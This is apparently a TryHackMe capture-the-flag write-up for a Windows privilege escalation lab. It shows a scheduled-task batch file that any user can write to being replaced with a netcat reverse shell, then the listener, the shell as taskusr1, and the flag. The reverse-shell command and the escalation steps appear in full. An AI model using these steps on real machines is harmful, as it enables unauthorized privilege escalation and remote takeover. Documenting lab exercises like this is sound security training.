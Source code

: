 # About This Module
Module link: https://tryhackme.com/room/windowsprivesc20

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/10/2023

# Schedule Tasks
1. Started this task's machine
2. `schtasks /query /tn <TASK NAME> /fo list /v` from the compromised Windows machine
```PowerShell
C:\Users\thm-unpriv>schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/10/2023 2:58:01 PM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```
3. `icacls <BINARY FILE PATH>` from the compromised Windows machine
```PowerShell
C:\Users\thm-unpriv>icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```
4. `echo <NETCAT EXECUTABLE PATH> -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER> > <BINARY FILE PATH>`
```PowerShell
C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe 10.10.54.202 9999 > C:\tasks\schtask.bat
```
5. `nc -lvnp <PORT NUMBER>` from our Linux attack machine
```Bash
root@ip-10-10-54-202:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. `schtasks /run /tn <TASK NAME>` from the compromised Windows machine
```PowerShell
C:\Users\thm-unpriv>schtasks /run /tn vulntask
SUCCESS: Attempted to run the scheduled task "vulntask".
```
```Bash
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.71.161 49727 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `type <USER TEXT FLAG PATH>` from our reverse shell on our attack machine
```PowerShell
C:\Windows\system32>type C:\Users\taskusr1\Desktop\flag.txt
type C:\Users\taskusr1\Desktop\flag.txt
THM{TASK_COMPLETED}
```


**TASK COMPLETED!**
